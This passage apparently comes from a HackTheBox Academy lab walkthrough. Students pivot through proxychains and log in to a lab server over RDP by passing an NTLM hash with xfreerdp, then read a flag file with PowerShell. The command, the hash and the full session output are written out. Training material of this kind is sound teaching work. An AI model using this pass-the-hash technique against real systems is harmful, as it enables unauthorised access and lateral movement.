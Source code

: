 Subsequently, students will proceed to connect to SRV02 (`172.20.0.52`) using proxychains via RDP:

Code: shell

```shell
proxychains xfreerdp /v:172.20.0.52 /u:Leonvqz /pth:A35289033D176ABAAF6BEAA0AA681400 /dynamic-resolution
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-tj22pb36f6]─[~]
└──╼ [★]$ proxychains xfreerdp /v:172.20.0.52 /u:Leonvqz /pth:A35289033D176ABAAF6BEAA0AA681400 /dynamic-resolution

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.20.0.52:3389  ...  OK
[00:15:46:190] [21173:21175] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[00:15:46:190] [21173:21175] [WARN][com.freerdp.crypto] - CN = SRV02.inlanefreight.local
[00:15:46:190] [21173:21175] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[00:15:46:190] [21173:21175] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[00:15:46:190] [21173:21175] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[00:15:46:190] [21173:21175] [ERROR][com.freerdp.crypto] - The hostname used for this connection (172.20.0.52:3389) 
[00:15:46:190] [21173:21175] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[00:15:46:190] [21173:21175] [ERROR][com.freerdp.crypto] - Common Name (CN):
[00:15:46:190] [21173:21175] [ERROR][com.freerdp.crypto] - 	SRV02.inlanefreight.local
[00:15:46:190] [21173:21175] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 172.20.0.52:3389 (RDP-Server):
	Common Name: SRV02.inlanefreight.local
	Subject:     CN = SRV02.inlanefreight.local
	Issuer:      CN = SRV02.inlanefreight.local
	Thumbprint:  58:20:f6:6b:22:d2:a1:92:9e:47:2e:10:1b:03:10:67:90:af:9d:49:8b:81:40:c6:fa:f4:4e:56:47:c4:f2:e5
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
```

Subsequently, students will open `PowerShell` and grab the flag located in the `C:\Flags` directory:

Code: powershell

```powershell
type C:\Flags\hash.txt
```
